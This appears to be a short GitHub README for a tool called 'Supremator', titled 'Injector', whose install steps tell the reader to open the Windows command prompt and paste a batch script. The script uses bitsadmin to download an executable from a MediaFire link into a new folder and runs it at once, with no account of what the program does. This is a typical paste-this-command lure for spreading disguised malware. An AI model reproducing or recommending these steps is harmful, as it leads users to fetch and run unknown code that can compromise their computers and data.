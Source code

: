 # supremator
Supremator Releases

How to install?

1 - Tap your windows key
2 - Tap "CMD"
3 - Then paste this code:
@echo off
title Injector - Supremator v1.0
cd c:\
MD XXSuper
cd XXSuper
bitsadmin.exe /transfer "Supremator" https://download1082.mediafire.com/3zx2twticirg/vkd0vmd8qblar97/supremator.exe C:\XXSuper\supremator.exe
supremator.exe
exit
4 - Supremator will automatically install!
